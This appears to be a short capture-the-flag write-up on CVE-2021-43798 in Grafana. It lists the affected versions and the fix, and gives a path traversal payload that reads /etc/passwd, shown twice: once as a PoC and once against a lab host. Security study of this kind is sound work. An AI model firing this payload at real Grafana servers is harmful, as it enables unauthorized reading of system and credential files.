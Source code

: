 <details><summary>Every Grafana instance comes with pre-installed plugins like the Prometheus plugin or MySQL plugin </summary></details>

> Affected version
- Grafana 8.0.0-beta1 to 8.3.0

> PoC

```
$HOST/public/plugins/graph/../../../../../../../../etc/passwd
```

> Solution
-  Please update Grafana to version 8.3.1, 8.2.7, 8.1.8, and 8.0.7.
## Exploit 
### CVE-2021-43798 Exploit 

> According to the PoC in [this article](https://securityonline.info/grafana-arbitrary-read-file-vulnerability-alert/)

![](./IMG/7.png)
> Try the payload on victim 
1. Access to Grafana home page (```http://10.10.11.183:3000```), it will redirect to ```/login``` page
2. Access to payload path and get the contect back(``` http://10.10.11.183:3000/public/plugins/graph/../../../../../../../../etc/passwd```)

![](./IMG/8.png)
